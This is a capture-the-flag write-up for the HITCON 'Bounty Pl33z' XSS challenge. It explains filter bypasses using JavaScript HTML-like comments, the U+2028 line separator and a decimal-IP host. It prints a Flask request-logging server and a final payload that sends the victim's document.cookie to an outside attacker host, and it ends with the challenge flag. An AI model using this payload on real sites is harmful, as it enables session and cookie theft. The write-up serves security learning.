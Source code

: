 # Bounty Pl33z [255pts]

## Description
```
Where's my bounty?
http://3.114.5.202/

Hint: flag in cookies
Author: 🤣filedescriptor feat.🍊Orange
30 Teams solved.
```
## Content

In this challenge, we should make XSS payload with fd.php, as index.php is refusing all url except ones starting with `http://3.114.5.202`

fd.php makes redirection to url containing passed parameter, but some characters are filtered.

Our parameter goes here :

    window.self.location.href = "https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";


With some tests, it was figured out that `\r`, `\n`, `/`, `\`, `<`, `.` characters removed, and `"`, `'` characters should only occur once.

## Solution

### Single Line Comment in JS

As we want to add document[\`cookie\`] to the url, we need to escape the string, that means we need to use a quote.
The problem is that after putting our url with one quote should make valid JS code. (Or else, browser will refuse to execute it.)
I wanted to make comment without using `/`, (as all I know about js comments are `// ..` or `/* .. */`) I dived into [ECMAScipt Language Specification](https://www.ecma-international.org/ecma-262/10.0/index.html).
And finally I found that `-->` can be used as single line comment at [HTML-like Comments](https://www.ecma-international.org/ecma-262/10.0/index.html#sec-html-like-comments).

### Line Terminator in JS

But another problem emerged: If `-->` want to work as single line comment, Only WhiteSpaceSequence or SingleLineDelimietedCommentSequence can come before `-->` in the line.
So I tried to find out line delimiters except `\n` or `\r`.
Luckily, I found out that U+2028 or U+2029 can used as line terminator in JS at [Line Terminators](https://www.ecma-international.org/ecma-262/10.0/index.html#sec-line-terminators).
We can use UTF-8 encoding to use these characters in url: `%E2%20%A8` or `%E2%20%A9`

### HTTPS server

We also need now is running HTTPS server.
First, I wrote simple HTTPS server with flask :
```
#!/usr/bin/env python3
from flask import Flask, request
import os
app = Flask(__name__)
app.secret_key = "sumango3"
@app.route('/')
def main():
       with open('log.txt', 'a') as f:
    f.write(str(request.__dict__))
        f.write('<br><br>')
    with open('log.txt','r') as f:
        return f.read()

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=1234, ssl_context='adhoc')
```

### URL Host Bypass

To make non-dot url, we can use decimal ip for url as following:
A.B.C.D --> A * 256^3 + B * 256^2 + C * 256 + D

If my ip address is 1.2.3.4, 16909060 can be used.

### Payload

So final payload is as following:

    http://3.114.5.202/fd.php?q=16909060:1234?ck="%2Bdocument[`cookie`]%E2%20%A8-->

fd.php will return following code: (Line Separator character is non printable)

    window.self.location.href = "https://16909060:1234?ck="+document[`cookie`]<LS>-->oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";

which is valid JS code.

## Flag

    hitcon{/FD 1s 0ur g0d <(_ _)>}

## Appendix

[HTTPS server](https://github.com/sumango3/ctf/blob/master/Utils/https-server.py)

